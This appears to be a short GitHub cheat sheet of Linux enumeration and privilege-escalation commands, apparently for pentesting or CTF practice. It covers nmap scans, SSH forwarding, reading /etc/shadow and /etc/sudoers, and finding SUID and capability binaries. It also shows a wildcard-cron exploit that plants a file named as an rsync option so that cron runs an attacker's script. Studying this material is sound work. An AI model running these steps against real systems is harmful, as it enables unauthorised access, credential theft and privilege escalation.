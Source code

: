 



* [Find SUID-bit set files](#suid-binary)
* [Host Discovery](#host-discovery)
* [Port Scan](#port-scan)
* [Port Forwarding](#port-forwarding)
* [Sudo usage](#audo-usage)
* [Find executable with capabilites](#capabilities-executable)
* [Exploiting wildcards crons](#wild-wildcards)
* [LinEnum.sh](#linenum.sh)




## Listening ports
 `$ netstat -l`

## Host discovery
Assuming that you wanna discover on 10.10.10.0/24 network:

 `$ nmap -sP 10.10.10.0/24`

## Port Scan

Normal scan  

 `$ nmap -sC -sV <<TARGET IP>> -o output_file.nmap`  
All ports scan
 `$ nmap -A -T5 -p- <<TARGET IP>> -o output_file.nmap`  
UDP scan 
 `$ nmap -sU <<TARGET IP>> -o output_fileudp.nmap`  
with ncat
 `$ nc -v -z <<TARGET IP>> 1-9999`

## Port Forwarding
SSH local port forwarding
 `$ ssh -L 9999:google.com:80 user@remotemachine`  
SSH Remote port forwarding
 `$ ssh -R 9999:localhost:1025 user@remotemachine`  

in a nutshell:  

 `$ ssh -R remoteport:localaddress:localaddressport user@remotemachine`


## Sudo usage

the first thing that we must do in a new machine:  

`sudo -l`    

`cat /etc/passwd ; cat /etc/shadow; cat /etc/sudoers`




## suid binary

`$ find / -perm -u=s 2>/dev/null`


## Capabilities executable

` find / -type f -print0 2>/dev/null  |  xargs -0 getcap   2>/dev/null`


## Wild Wildcards

When a cronjob is running with a wildcard as * as arguments, it can be exploited:

example:  

	- cron :  

	> $ rsync /backup/* rsync://backup:/src/backup-server/

We can create a file that gonna act as an argument, like:  

	> $ touch -- "/backup/-e sh evil_script.sh"

The final command will be executed as:  

	> $ rsync -e sh evil_script.sh rync://backup:/src/backup-server/   


rync will execute the script as the user who runs the cron :D


## LinEnum.sh

Bash script tool who gives you a entire surface map of the system :D  

- [LinkToLinenum](https://github.com/jcatala/h4ckme/tree/master/enumeration/linenum.sh)
- [Link to official repo](https://github.com/rebootuser/LinEnum)





